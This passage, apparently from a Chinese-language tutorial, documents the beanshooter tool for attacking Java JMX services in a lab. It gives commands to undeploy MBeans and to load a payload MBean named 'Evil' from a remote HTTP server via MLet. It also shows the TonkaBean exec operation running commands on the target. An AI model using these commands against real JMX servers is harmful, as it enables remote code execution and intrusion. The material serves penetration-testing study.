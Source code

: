 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfeRpoErVia5h5uP8eoJsHsetKibKzWibZyVXQj2rnJUKrQoPlKdJh5OJLg/640?wx_fmt=png&from=appmsg "")  
###### 卸载操作  
  
undeploy操作从远程JMX服务中移除指定的MBean：  
```
java -jar beanshooter.jar tonka undeploy 172.17.0.2 9010
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfuGgUHApTOxVqxbFyLichLEiaAlPVGiaHJGj6wmjpHrmd6b7d0ABOh2ZHg/640?wx_fmt=png&from=appmsg "")  
##### MLet  
  
MLetMBean是一个众所周知的MBean，它可以用于通过网络加载额外的MBean，它已经被beanshooter的部署操作隐式使用，同时也可以通过mlet操作手动调用  
###### MLet Load  
  
目前唯一实现的MLet方法是load操作，可用于从用户指定的URL加载MBean类：  
```
java -jar beanshooter.jar mlet load 172.17.0.2 9010 tonka http://172.17.0.1:8000
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfDwdEN5nP9eL9F0nsTgjbI4v4uKpkFewyIREDze1lE6cmIRvHRYiawFA/640?wx_fmt=png&from=appmsg "")  
  
上述示例演示了如何使用mlet操作手动加载TonkaBean，如果您想要加载自定义MBean，则需要指定关键字custom而不是tonka，并提供--class-name、--object-name和--jar-file选项：  
```
java -jar beanshooter.jar mlet load 172.17.0.2 9010 custom http://172.17.0.1:8000 --class-name Evil --object-name Evil:name=Evil,id=1 --jar-file /root/jmx/JMXPayload.jar
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfSx3V7HqtGN8IRwib1NxZrldPDyEMfd1CeopY1tKG2GBSxutjSDzy6Mw/640?wx_fmt=png&from=appmsg "")  
#### TONKA  
  
TonkaBean是由beanshooter项目实现的自定义MBean，允许在JMX服务器上访问文件系统和执行命令，可以通过使用tonka操作来访问其所需的功能  
##### Tonka Exec  
  
exec操作可用于在RMI服务上执行单个命令：  
```
java -jar beanshooter.jar tonka exec 172.17.0.2 9010 id
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfNhQeXNpEjCELlKRAXt8E0vvH7da63OM5peog7JjQkSoic4Hz992Qryg/640?wx_fmt=png&from=appmsg "")  
  
exec操作的最后一个参数预期为字符串，当未使用"--shell"选项时，该字符串会在空格处拆分(考虑引号)并作为数组传递给服务器端的ProcessBuilder类，  
如果使用了"--shell"则指定的shell字符串会在空格处拆分，生成的数组与指定的参数字符串连接后再传递给ProcessBuilder类，这允许以类似shell的方式执行并正确解释shell特殊字符：  
```
java -jar beanshooter.jar tonka exec 172.17.0.2 9010 --shell 'ash -c' 'echo $HOSTNAME'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfTib9qOqeTPmL0DtH68YPvDemVkMpS6Hp5Eiania4SG8zDEq1z0kTz3edQ/640?wx_fmt=png&from=appmsg "")  
  
备注：为了方便起见，常见的shell会自动附加所需的命令字符串参数，因此"--shell ash"会自动转换为--shell 'ash -c'  
  
##### Tonka Execarray  
  